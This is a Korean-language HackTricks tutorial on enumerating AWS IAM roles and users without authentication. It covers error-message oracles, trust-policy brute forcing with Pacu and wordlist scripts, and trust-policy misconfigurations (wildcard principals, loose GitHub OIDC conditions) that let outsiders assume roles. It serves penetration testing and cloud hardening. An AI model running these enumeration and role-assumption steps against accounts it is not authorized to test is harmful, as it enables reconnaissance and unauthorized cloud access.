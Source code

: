 # AWS - IAM 및 STS 인증되지 않은 열거

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 계정에서 역할 및 사용자 이름 열거

### ~~역할 브루트 포스 가정~~

{% hint style="danger" %}
**이 기술은 더 이상 작동하지 않습니다**. 역할이 존재하든 존재하지 않든 항상 다음 오류가 발생합니다:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

다음을 실행하여 **이를 테스트**할 수 있습니다:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**필요한 권한 없이 역할을 가정**하려고 시도하면 AWS 오류 메시지가 트리거됩니다. 예를 들어, 권한이 없으면 AWS는 다음과 같은 오류를 반환할 수 있습니다:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
이 메시지는 역할의 존재를 확인하지만, 해당 역할의 assume role 정책이 당신의 가정을 허용하지 않음을 나타냅니다. 반면, **존재하지 않는 역할을 가정하려고 하면 다른 오류가 발생**합니다:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
흥미롭게도, **기존 및 비기존 역할을 구별하는** 이 방법은 서로 다른 AWS 계정에서도 적용될 수 있습니다. 유효한 AWS 계정 ID와 대상 단어 목록을 사용하여 내재적인 제한 없이 계정에 있는 역할을 열거할 수 있습니다.

이 문제를 악용하여 잠재적인 주체를 열거하는 [스크립트를 사용할 수 있습니다](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum).

### 신뢰 정책: Cross Account 역할 및 사용자 무차별 대입

**IAM 역할의 신뢰 정책을 구성하거나 업데이트하는 것은 해당 역할을 가정하고 일시적인 자격 증명을 얻을 수 있는 AWS 리소스 또는 서비스를 정의하는 것**을 의미합니다. 정책에서 지정한 리소스가 **존재하는 경우**, 신뢰 정책은 **성공적으로** 저장됩니다. 그러나 리소스가 **존재하지 않는 경우**, 잘못된 주체가 제공되었다는 **오류가 생성**됩니다.

{% hint style="warning" %}
이 리소스에서는 다음과 같이 Cross Account 역할 또는 사용자를 지정할 수 있습니다:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

다음은 정책 예시입니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

이것은 **존재하지 않는 역할**을 사용하는 경우 발생하는 **오류**입니다. 역할이 **존재하는 경우**, 정책은 오류 없이 **저장**됩니다. (오류는 업데이트에 대한 것이지만 생성할 때도 작동합니다)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
[https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)를 사용하여이 프로세스를 자동화 할 수 있습니다.

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

또는 [Pacu](https://github.com/RhinoSecurityLabs/pacu)를 사용하여 다음을 실행할 수 있습니다:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* 예제에서 사용된 `admin` 역할은 열거를 위해 pacu에 의해 **피사용자로 위장 할 수있는** 계정 내의 역할입니다.

### 권한 상승

역할이 잘못 구성되어 누구든지 가정할 수 있도록 허용되는 경우:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
공격자는 그냥 가정할 수 있습니다.

## 제3자 OIDC 연합

**Github Actions workflow**가 **AWS** 내부의 **역할**에 액세스하는 것을 읽을 수 있다고 상상해보십시오.\
이 신뢰는 다음과 같은 **신뢰 정책**을 가진 역할에 액세스할 수 있게 할 수 있습니다.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
이 신뢰 정책은 올바를 수도 있지만, **추가 조건의 부재**로 인해 불신을 가져야 합니다.\
이는 이전 역할이 **Github Actions의 아무도**에 의해 가정될 수 있다는 것을 의미합니다! 조건에 조직 이름, 저장소 이름, 환경, 브랜치와 같은 다른 사항들을 명시해야 합니다...

또 다른 잠재적인 잘못된 구성은 다음과 같은 조건을 **추가하는 것**입니다:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**콜론**(:) 앞에 있는 **와일드카드**(\*)에 주목하세요. **org\_name1**과 같은 조직을 생성하고 Github Action에서 **역할을 가정**할 수 있습니다.

## 참고 자료

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>

